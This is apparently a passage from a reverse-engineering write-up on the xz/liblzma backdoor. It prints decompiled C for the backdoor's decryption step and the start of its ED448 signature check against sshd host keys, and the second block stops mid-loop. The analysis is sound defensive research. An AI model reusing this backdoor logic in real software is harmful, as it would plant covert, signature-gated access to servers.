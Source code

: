 ```c
                  {
                    cipher = &out[outl];
                    status = hfuncs->EVP_DecryptFinal_ex(ctx, cipher, &outl);
                    if ( status == Success )
                    {
                      EVP_CIPHER_CTX_free0 = hfuncs->EVP_CIPHER_CTX_free;
                      if ( outl >= 0 && length >= outl )
                      {
                        EVP_CIPHER_CTX_free0(ctx);
                        return status;
                      }
                    }
                  }
                }
                EVP_CIPHER_CTX_free = hfuncs->EVP_CIPHER_CTX_free;
                if ( EVP_CIPHER_CTX_free )
                  (EVP_CIPHER_CTX_free)(ctx);
              }
            }
          }
        }
      }
    }
  }
  return Error;
}
```

This gives the backdoor a decrypted ED448 signature (114 bytes).
The `ed448_public_key` is used for verification.

The signature verification routine is shown below:

```c
host_keys = sensitive_data->host_keys;
params0 = 0LL;
if ( host_keys )
{
  host_pubkeys = sensitive_data->host_pubkeys;
  if ( host_pubkeys )
  {

    if ( host_keys != host_pubkeys
      && sensitive_data->have_ssh2_key <= 1u )
    {
      // check for sensitive_data->host_keys
      if ( check_malloc_usable_size(host_keys, &params, ctx->standard) )
      {
        // check for sensitive_data->host_pubkeys
        if ( check_malloc_usable_size(
               ctx->sensitive_data->host_pubkeys,
               &params0,
               ctx->standard) )
        {
          params_c = params;
          if ( params == params0 )
          {
            ed448_public_key0 = &out;
            if ( decrypt_ed448_public_key(&out, ctx) )
            {
              host_pubkeys_index = 0LL;
              do
              {
                verified_key_index = host_pubkeys_index;
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48